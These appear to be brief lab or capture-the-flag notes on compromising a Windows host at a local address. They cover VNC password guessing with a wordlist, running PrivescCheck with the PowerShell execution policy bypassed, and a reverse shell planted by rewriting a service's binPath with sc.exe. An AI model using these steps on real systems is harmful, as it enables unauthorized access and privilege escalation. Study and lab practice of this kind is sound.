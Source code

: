 url=192.168.1.101

nmap

vnc port 5900
password is rockyou (manually testing rockyou.txt)
same for user is iloveyou

[PrivescCheck](https://github.com/itm4n/PrivescCheck)

file transfer over updog

```sh
Set-ExecutionPolicy Bypass -Scope Process -Force
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format HTML
```

rev shell from `git@github.com:Erez-Goldberg/Rust-revshell.git`, easy for cross compiling

file transfer over updog

```sh
sc.exe config iphlpsvc binPath= "C:\Users\Jenny\Downloads\reverse_shell.exe"
sc.exe stop iphlpsvc
sc.exe start iphlpsvc
```

